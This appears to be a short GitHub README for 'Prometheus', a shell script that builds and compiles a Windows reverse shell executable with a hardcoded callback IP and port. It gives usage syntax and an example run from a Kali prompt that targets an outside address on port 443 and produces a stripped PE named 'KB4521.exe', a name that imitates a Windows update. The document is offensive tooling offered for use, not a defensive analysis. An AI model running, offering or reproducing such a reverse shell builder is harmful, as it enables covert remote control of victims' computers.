 # Prometheus
Prometheus quickly generates and compiles a new reverse shell PE with a hardcoded socket address.  

[Usage]: ./prometheus.sh [IP] [PORT]

[Example]:

root@kali:/opt/Prometheus# ./prometheus.sh 78.55.64.3 443

Building Custom Reverse Shell Executable...

Souce code complete...
Compiling...

Cleaning up...

Done. 
Support The Free Information Movement

-rwxr-xr-x 1 root root 13312 Feb  1 10:44 KB4521.exe
KB4521.exe: PE32 executable (console) Intel 80386 (stripped to external PDB), for MS Windows

